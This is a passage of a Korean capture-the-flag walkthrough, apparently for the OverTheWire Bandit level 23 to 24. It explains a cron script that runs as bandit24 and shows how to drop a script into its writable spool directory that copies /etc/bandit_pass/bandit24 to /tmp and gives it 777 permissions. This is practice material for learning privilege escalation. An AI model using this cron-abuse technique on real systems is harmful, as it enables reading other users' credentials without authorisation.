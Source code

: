 ```shell
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done
```

현재 `/usr/bin/cronjob_bandit24.sh` 스크립트가 cron에 의해 **매분**마다 bandit24 사용자 권한으로 실행된다.
해당 스크립트의 동작을 정리하면 다음과 같다.

1. `/var/spool/{현재 사용자 이름}/foo` 디렉터리로 이동한다.
    - `whoami`는 현재 사용자 이름을 출력하는 명령
2. 해당 디렉터리에서 `.`과 `..`을 제외한 모든 파일명에 대해 반복문을 수행한다.
    - `for i in * .*`에서 `*`는 모든 파일, `.*`은 숨긴 모든 파일을 의미
3. 반복문 내에서는 해당 파일명의 소유자가 "bandit23"과 같은지 확인한다
    - `stat --format "%U" ./$i` : `./$i` 파일의 소유자를 출력
4. bandit23과 같다면, 60초 이내에 해당 파일을 실행해야 한다.
    - `timeout -s 9 60 ./$i`에서 `-s 9`는 강제 종료 신호인 9번 신호(SIGKILL)를 이용한다는 의미

<br>

```shell
bandit23@bandit:~$ ls -al /var/spool/bandit24/
total 12
dr-xr-x--- 3 bandit24 bandit23 4096 Apr 23 18:04 .
drwxr-xr-x 5 root     root     4096 Apr 23 18:04 ..
drwxrwx-wx 3 root     bandit24 4096 Apr 24 15:22 foo
```

foo 디렉터리는 작성 권한이 있기 때문에 해당 디렉터리 내에 bandit24 password를 다른 파일로 출력할 수 있는 스크립트를 작성해야 한다.

<br>

```shell
bandit23@bandit:~$ vim /var/spool/bandit24/foo/shell.sh
```
 vim을 통해 아래의 내용을 포함한 스크립트 파일을 만들자.

```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit24_pass
```

<br>

파일 생성 후, bandit24 사용자가 해당 파일을 실행할 수 있도록 권한을 설정 해준다.

```shell
bandit23@bandit:~$ chmod 777 /var/spool/bandit24/foo/shell.sh
```
